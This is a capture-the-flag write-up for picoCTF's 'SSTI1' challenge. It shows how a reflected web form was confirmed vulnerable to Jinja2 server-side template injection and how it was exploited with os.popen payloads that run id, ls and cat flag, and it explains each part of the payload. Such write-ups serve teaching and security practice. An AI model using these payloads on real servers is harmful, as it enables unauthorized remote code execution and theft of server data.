 # SSTI1
Author: Venax


## 📂 Category
- Web Exploitation  
- Difficulty: Easy  

---

## 🧩 Challenge Description
The challenge provided a simple web form that reflected user input. 

---

## 🔍 Initial Observations
- Entering expressions like `{{7*7}}` returned `49`, indicating possible Server-Side Template Injection (SSTI).
---

## 🧪 Exploitation Steps

1. Entered: ```{{7*7}}``` → Response was `49` → Confirmed SSTI.
2. Tried: ```{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}```
3. Got a system-level response confirming Remote Code Execution (RCE).
4. Ran: ```{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}```
5. Server files listed.
6. Finally: ```{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}```
7. Revealed the flag.

---

## 🏁 Flag

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_424a1494}

---

## 🧠 What I Learned

**What is a Template Engine?**

A template engine helps generate dynamic web pages. Instead of hardcoding values, you write placeholders like:

```<p>Hello, {{ name }}!</p>```

The server fills in the actual data.

In this challenge, the web page uses Jinja2, the default template engine for Python's Flask framework, to make the page dynamic. Different frameworks use different engines and syntax. For example, if the site was built with Django, an expression like ```{{7}}``` might be enough to test for evaluation.

**What is SSTI?**

Server-Side Template Injection occurs when user input is unsafely inserted into a template. If an input like ```{{7*7}}``` returns 49 (7 times 7 = 49), the server is evaluating user input as code.

**Note:** 7\*7 is just a common convention—it could be any expression.

If unpatched, SSTI can lead to:
- Data leaks
- Remote code execution (RCE)
- Full server compromise

**Code explanation**

```{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}```

- ```request```	: A Flask object representing the current HTTP request.
- ```request.application``` : The Flask application instance being used.
- ```__globals__```: Accesses the global variables of the template’s underlying Python environment.
- ```__builtins__``` : Exposes all built-in Python functions and objects (like open, print, __import__, etc.).
- ```__import__('os')``` : Dynamically imports the os module — a powerful module for interacting with the system.
- ```.popen('id')``` : Runs the shell command id, which returns the current user and group info. Can replace with other commands (eg: ls, cat, etc)
- ```.read()``` : Reads and returns the output of that command.

---

## 📚 References

https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

---
### Last updated: 5/13/2025